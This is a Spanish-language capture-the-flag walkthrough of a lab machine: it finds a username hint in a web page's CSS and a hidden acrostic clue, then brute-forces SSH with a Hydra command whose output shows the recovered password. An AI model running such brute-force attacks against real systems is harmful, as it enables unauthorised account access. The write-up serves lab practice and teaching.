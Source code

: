 Veremos que tenemos un puerto `80` abierto, en el que tiene alojado una pagina web, si entramos dentro veremos una pagina web como de una especie de noticias a nivel de actualidad, pero no veremos nada interesante, vamos inspeccionar el codigo por dentro a ver que encontramos.

Si inspeccionamos el codigo veremos en el `CSS` el siguiente parametro bastante interesante y raro, ya que no existe en `top` la palabra `pipe` por lo que podremos ceer que pude ser un usuario del sistema.

```css
body {
            font-family: "Segoe UI", Arial, sans-serif;
            background: #f4f4f9;
            margin: 0;
            padding: 0;
            color: #333;
		    top: pipe; /* <-------- EN ESTA PARTE */
        }
```

Tambien vemos la siguiente linea que esta oculta con un `hidden` y dentro el texto llamado `acrostico inicial`.

```html
<article hidden="acrostico inicial">
	    <h2>HIDDEN</h2>
	</article>
```

Si investigamos sobre ello veremos lo siguiente en `Google`:

```
poema o texto donde las letras iniciales de cada verso, leídas verticalmente, forman una palabra o frase
```

Por lo que vemos todas las iniciales de donde estan las noticias pueden formar una frase, si cogemos las iniciales de cada titulo de un articulo formaran la siguiente palabra.

```
winserverrootfakenews
```

Por lo que si la probamos con el usuario `pipe` por `SSH` no va a funcionar, vamos a creer que es de `root`, por lo que tendremos que acceder al servidor con dicho usuario.

Vamos a realizar un ataque de `Fuerza bruta` con dicho usuario por `SSH`.

## Escalate user pipe

### Hydra

```shell
hydra -l pipe -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-10 11:41:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.3:22/
[22][ssh] host: 172.17.0.3   login: pipe   password: kisses
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 23 final worker threads did not complete until end.
```